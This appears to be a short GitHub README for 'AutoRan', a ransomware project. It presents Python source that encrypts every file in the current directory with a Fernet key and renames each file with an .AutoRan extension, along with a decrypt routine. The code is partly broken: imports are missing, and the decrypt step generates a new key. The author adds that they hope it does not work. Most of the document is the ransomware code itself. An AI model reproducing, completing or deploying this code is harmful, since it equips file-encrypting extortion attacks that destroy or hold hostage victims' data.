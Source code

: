 # AutoRan
### AutoRan history 1.0
#### Encrypt
###### Encrypt Source Code

```
from cryptography.fernet import Fernet

Encrypt = {}
Files = glob.glob("*.*")

Key = Fernet.generate_key()
F = Fernet(Key)

def Encry():
  try:
    for File in Files:
      with open(File, "r") as fp:
        Data = fp.read()
        Locked = F.encrypt(Data)
        Encrypt[File] = Locked
        os.rename(File, f"{File}.AutoRan")
        FL.insert(END, f"{File} -> {File}.AutoRan")
        fp.close()
  except:
    pass
```

#### Decrypt
##### Decrypt Source Code

```
from cryptography.fernet import Fernet

Encrypt = {}
Files = glob.glob("*.*")

Key = Fernet.generate_key()
F = Fernet(Key)

def Decry():
  try:
    for LockData in Encrypt:
      with open(LockData, "w") as fp:
        Data = Encrypt[LockData]
        UnLocked = F.decrypt(Data).decode()
        fp.write(UnLocked)
  except:
    pass
```

#### Use cryptography.fernet
# I hope this program not work
#### cause i hate ransomware...

